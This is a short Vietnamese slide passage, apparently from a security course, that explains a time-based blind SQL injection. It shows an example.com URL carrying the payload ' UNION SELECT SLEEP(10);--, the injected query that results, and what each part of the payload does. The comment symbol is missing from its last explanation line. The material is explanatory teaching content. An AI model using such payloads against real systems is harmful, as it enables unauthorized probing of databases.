

Ví dụ URL:
http://example.com/app/accountView?id=' UNION SELECT SLEEP(10);--

Truy vấn sau khi bị chèn:
SELECT * FROM accounts WHERE custID='' UNION SELECT SLEEP(10);--'

Giải thích Payload:
+ Dấu ' đầu tiên đóng chuỗi ' ban đầu.

+ Lệnh UNION SELECT SLEEP(10) được chèn vào để buộc cơ sở dữ liệu tạm dừng trong 10 giây (dùng để kiểm tra lỗ hổng Blind SQL Injection).

+ là ký hiệu bình luận (comment) trong SQL, nó vô hiệu hóa dấu ' cuối cùng của truy vấn gốc.